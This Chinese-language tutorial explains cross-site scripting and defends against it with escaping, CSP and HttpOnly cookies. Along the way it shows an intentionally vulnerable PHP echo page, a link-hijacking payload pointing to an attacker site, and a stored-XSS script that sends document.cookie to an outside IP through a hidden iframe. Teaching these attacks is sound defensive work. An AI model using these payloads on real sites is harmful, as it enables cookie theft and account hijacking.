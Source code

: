 # XSS 跨站脚本攻击


---

随着互联网技术的发展，现在的Web应用都含有大量的动态内容以提高用户体验。所谓动态内容，就是应用程序能够根据用户环境和用户请求，输出相应的内容。动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

##什么是 XSS
XSS 是一种常见的 web 安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS 涉及到三方，即攻击者、客户端与Web应用。XSS 的攻击目标是为了盗取存储在客户端的 cookie 或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

**总之，XSS 能做用户使用浏览器能做的一切事情。包括获取用户的 cookie 等重要隐私信息的操作。另外，同源策略无法保证不受 XSS 攻击，因为此时攻击者就在同源之内**

##XSS 工作原理
XSS通常可以分为两大类：

- 客户端型
- 服务端型

无论是哪一种 XSS，其目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）- 用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

###客户端型 xss 攻击

客户端型 xss 攻击是一次性的，仅对当次的页面访问产生影响。客户端型 xss 攻击要求用户访问一个被攻击者篡改后的链接，用户访问该链接时，被植入的攻击脚本被用户游览器执行，从而达到攻击目的。

假设有以下index.php页面：
```
<?php
$name = $_GET['name'];
echo "Welcome $name<br>";
echo "<a href="http://www.cnblogs.com/bangerlee/">Click to Download</a>";
?>
```
该页面显示两行信息：

从URI获取 'name' 参数，并在页面显示
显示跳转到一条URL的链接
这时，当攻击者给出以下URL链接：
```
index.php?name=guest<script>alert('attacked')</script>
```
当用户点击该链接时，将产生以下html代码，带'attacked'的告警提示框弹出：
```
Welcome guest
<script>alert('attacked')</script>
<br>
<a href='http://www.cnblogs.com/bangerlee/'>Click to Download</a>
```

除了插入alert代码，攻击者还可以通过以下URL实现修改链接的目的：

```
index.php?name=
<script>
window.onload = function() {
var link=document.getElementsByTagName("a");link[0].href="http://attacker-site.com/";}
</script>
```
当用户点击以上攻击者提供的URL时，index.php页面被植入脚本，页面源码如下：
```
<script>
window.onload = function() {
var link=document.getElementsByTagName("a");link[0].href="http://attacker-site.com/";}
</script>
<br>
<a href='http://www.cnblogs.com/bangerlee/'>Click to Download</a>
```
用户再点击 "Click to Download" 时，将跳转至攻击者提供的链接。

##服务端型 XSS 攻击
服务端型的 XSS 攻击与客户端型的运行原理类似。 其本质上是注入攻击。区别在于服务端型的恶意代码可以复用，并且不需要引诱用户点击某个连接。

还记得之前浏览器同源策略的知识吗？
浏览器的同源策略虽然对 ajax 请求做了限制，现代浏览器对于某些 xss 而已代码也做了过滤。但是，对于服务端返回的嵌入式资源的跨域交互是允许的！

黑客将将恶意代码通过某个操作，写入被攻击服务器的数据库中，接着在某个数据列表展示页面中通过嵌入 js 代码，迫使用户的浏览器执行恶意 javascript 代码来达到 XSS 攻击的目的。
就像下面这样：
```
// 用 <script type="text/javascript"></script> 包起来放在评论中

(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);

```
##如何避免 XSS 攻击
- 对于任何用户输入的信息，入库之前都要进行转义。
- 使用浏览器自带的 xss filter
现代浏览器都对反射型xss有一定的防御力，其原理是检查url和dom中元素的相关性。但这并不能完全防止反射型xss。另外，浏览器对于存储型xss并没有抵抗力，原因很简单，用户的需求是多种多样的。所以，抵御xss这件事情不能指望浏览器。
- CSP(Content Security Policy)
从原理上说防止xss是很简单的一件事，但实际中，业务代码非常多样和复杂，漏洞还是是不是会出现。 CSP 并不是用来防止xss攻击的，而是最小化xss发生后所造成的伤害。事实上，除了开发者自己做好xss转义，并没有别的方法可以防止xss的发生。CSP可以说是html5给web安全带来的最实惠的东西。。CSP的作用是限制一个页面的行为不论是否是javacript控制的。如何引入CSP呢？

假设现在需要完成一个只允许脚本从本源加载资源的设置，则有两种方式。

*通过response头*
```Content-Security-Policy: script-src ‘self’```
*通过HTML的META标签*
```<meta http-equiv=”Content-Security-Policy” content=”script-src ‘self'”>```
*CSP 策略常用限制功能*
```
base-uri : 限制这篇文档的uri  
child-src ：限制子窗口的源(iframe,弹窗等),取代frame-src  
connect-src ：限制脚本可以访问的源  
font-src : 限制字体的源  
form-action : 限制表单能够提交到的源  
frame-ancestors : 限制了当前页面可以被哪些页面以iframe,frame,object等方式加载  
frame-src ：deprecated with child-src,限制了当前页面可以加载哪些源，与frame-ancestors对应 
img-src : 限制图片可以从哪些源加载  
media-src : 限制video, audio, source, track 能够从哪些源加载  
object-src ：限制插件可以从哪些源加载  
sandbox ：强制打开沙盒模式

```

CSP是一个强大的策略，几乎可以限制了所有能够用到的资源的来源。使用好CSP可以很大成都降低XSS带来的风险
CSP 目前有两版，CSP1 和CSP2， 两版的支持状态可以在 http://caniuse.com/#search=csp 中查到。

- Http-Only
使用 http-only 保护cookie。可以保证即使发生了xss，用户的cookie也是安全的。使用http-only 保护的cookie是不会被 javascript 读写的。所以无论是客户端还是服务端的 XSS 攻击，都无法通过 js 获取到用户的 cookie 信息。


##总结
XSS 与 CSRF 攻击都是属于高危攻击手段。即使是在现代浏览器、同源策略以及 html5 的强大防线下，他们依然能够对 web 应用产生巨大的危害。
在开发 web 应用时，应该合理利用 http-only、CSP 策略、以及用户输入信息转义，能够将 XSS 与 CSRF 的风险降到最低。


#####参考链接
- [避免 SQL 注入](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.4.md), by wuyuanwei
- [Web 攻击与防护](http://liuwanlin.info/webgong-ji-yu-fang-hu/), by liuwulin
- [浏览器的同源策略](https://developer.mozilla.org/zh-CN/docs/Web/Security/Same-origin_policy)
- [总结 XSS 与 CSRF 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
- [XSS 攻击入门](http://www.cnblogs.com/bangerlee/archive/2013/04/06/3002142.html)
- [关于Web安全，99%的网站都忽略了这些](https://blog.wilddog.com/?p=290), by wilddog
- [预防跨站点请求伪造：了解浏览器选项卡中的隐藏危险](https://www.ibm.com/developerworks/cn/web/se-appscan-detect-csrf-xsrf/)
- [CSRF 攻击的应对之道](http://www.importnew.com/5839.html)



